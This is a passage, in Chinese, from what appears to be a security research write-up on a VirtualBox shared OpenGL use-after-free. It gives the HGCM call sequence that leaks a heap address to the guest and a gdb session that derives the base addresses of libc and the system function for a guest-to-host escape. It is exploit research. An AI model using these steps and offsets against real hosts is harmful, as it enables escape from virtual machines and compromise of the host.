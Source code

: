 信息泄露触发流程为：

1. `HGCM_CONNECT()`生成`CRClient`(0x9e0)与`CRConnection`(0x2a0)的堆块；其中`crclient→conn = crconnection & crconnection→pClient[0x248] = crclient`
2. `HGCM_DISCONNECT()`释放`CRClient`与`CRConnection`
3. `HGCM_CALL(SHCRGL_GUEST_FN_WRITE_BUFFER, 0x290, [CR_GETUNIFORMLOCATION_EXTEND_OPCODE, offset=0x248])`生成的message会占据释放的`CRConnection`堆块
4. `HGCM_CALL(SHCRGL_GUEST_FN_WRITE_READ_BUFFERED)` ⇒ `svcCall` ⇒ `crUnpack(0xfc) ⇒ crUnpackExtend(0xa4) ⇒ crUnpackExtendGetUniformLocation`，会处理步骤3生成的message，并将读取的`crclient`地址返回给guest
- 调试信息

    ```c
    set $gl=base of VBoxSharedCrOpenGL.so
    b *($gl+0x278ab) //crconnection堆块生成位置
    b *($gl+0xc2550) crUnpackExtend (crUnpack 0xf7)
    b *($gl+0xc7120) crUnpackExtendGetUniformLocation (crUnpackExtend 0xe4)
    cr_unpackData x/gx $gl+0x3106c0

    // conn被覆盖为leak msg
    gdb-peda$ x/20gx $conn-0x10
    0x7fbaf49f7f50:	0x0000000000000000	0x00000000000002a5
    0x7fbaf49f7f60:	0x4141414177474c01	0xf700000000000001
    0x7fbaf49f7f70:	0x000000a400000248	0x5445454c00000000
    // conn->0x248 == client
    gdb-peda$ x/gx $conn+0x248
    0x7fbaf49f81a8:	0x00007fbaf49f7580
    gdb-peda$ p/x $conn-0x9e0
    $1 = 0x7fbaf49f7580
    // 因此，通过0x248泄露的地址可以得到conn的地址

    gdb-peda$ x/gx $conn+0xd8 [1]
    0x7fbaf49f8038:	0x00007fbb0ac73650
    gdb-peda$ vmmap 0x00007fbb0ac73650
    Start              End                Perm	Name
    0x00007fbb0ac53000 0x00007fbb0ac81000 r-xp	/usr/lib/virtualbox/VBoxOGLhostcrutil.so
    gdb-peda$ p 0x00007fbb0ac73650-0x00007fbb0ac53000
    $3 = 0x20650 [2]
    gdb-peda$ set $util=0x00007fbb0ac53000
    gdb-peda$ x/gx $util+0x22e3d0 [3]
    0x7fbb0ae813d0:	0x00007fbb7e3fcec0
    gdb-peda$ x/i 0x00007fbb7e3fcec0
    0x7fbb7e3fcec0 <socket>:	mov    eax,0x29
    gdb-peda$ p 0x00007fbb7e3fcec0-0x122ec0 [4]
    $7 = 0x7fbb7e2da000
    gdb-peda$ vmmap 0x7fbb7e2da000
    Start              End                Perm	Name
    0x00007fbb7e2da000 0x00007fbb7e4c1000 r-xp	/lib/x86_64-linux-gnu/libc-2.27.so
    gdb-peda$ x/i 0x7fbb7e2da000+0x4f440 [5]
    0x7fbb7e329440 <__libc_system>:	test   rdi,rdi
    /**
    [1] $conn+0xd8 => crVBoxHGCMFree
    [2] crVBoxHGCMFree-0x20650 => VBoxOGLhostcrutil.so
    [3] VBoxOGLhostcrutil.so+0x22e3d0 => got@socket
    [4] socket-0x122ec0 => libc-2.27.so
    [5] libc-2.27.so+0x4f440 => system
    ```
